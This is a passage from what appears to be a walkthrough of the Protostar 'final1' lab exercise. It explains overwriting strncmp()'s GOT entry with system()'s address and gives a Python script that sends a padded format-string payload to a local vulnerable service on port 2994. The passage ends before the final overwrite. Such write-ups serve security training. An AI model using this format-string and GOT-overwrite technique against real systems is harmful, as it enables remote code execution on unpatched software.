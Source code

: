 Now, we just need to overwrite the address of `system()` into **strncmp()'s GOT entry**.

![system-address](/public/image/protostar-final/system-address.png)

However, there's a misalignment issue due to **IP and port length**.

![alignment-problem](/public/image/protostar-final/alignment-problem.png)

The **A's** aren't aligned, and they might shift depending on the hostname length. To fix this, we adjust the padding so there's no offset.

- Shortest hostname: **9 (x.x.x.x:x)**
- Longest hostname: **21 (xxx.xxx.xxx.xxx:xxxxx)**
- Best padding: **24 (aligned to 32-bit)**

```shell
import socket

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

# handle misalignment
host, port = s.getsockname()
hostname = host + ":" + str(port)

pad = 'A' * (24 - len(hostname))
username = pad + 'BBBB' + '%08x ' * 20
login = 'CCCC'

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
raw_input('[Enter] to continue...')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')
```

